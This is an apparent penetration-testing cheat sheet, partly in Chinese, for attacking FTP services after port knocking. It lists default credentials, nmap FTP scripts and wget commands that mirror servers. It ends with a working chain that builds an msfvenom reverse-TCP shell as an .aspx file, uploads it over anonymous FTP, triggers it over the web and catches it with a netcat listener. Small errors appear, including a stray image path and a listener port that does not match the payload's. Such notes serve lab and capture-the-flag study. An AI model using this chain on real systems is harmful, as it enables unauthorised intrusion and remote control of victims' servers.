 ```bash
knock -v 7000 8000 9000
nmap -sV -A -p 22 $tip
```

## 21-ftp
+ default credentials login
+ get file and search, notice the hidden files.
+ upload file/script then exploit with web vuln


```bash
# default creds
anonymous:anonymous
anonymous:
guest:
ftp:ftp
admin:admin

nmap --script ftp-* -p 21  <ip>

//browser connection
ftp://anonymous:anonymous@10.10.10.98

//down all file
wget -m ftp://anonymous:anonymous@10.10.10.98 #Donwload all wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98 #Download all
wget -r ftp://anonymous@$tip:30021

ftp 192.168.3.2
nc 192.168.3.2 21 //匿名登录

ftp $tip
Anonymous

ls 
get
```

* anonymous login - get shell
ftp匿名登录，可能为web服务的路径，上传webshell后 get shell
aspnet_client, iisstart.htm, iis-85.png

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=19.168.119.196 LPORT=444 -f aspx > test.aspx

ftp>put test.aspx
ftp>ls

//web access test.aspx

nc -nvlp 4444
```
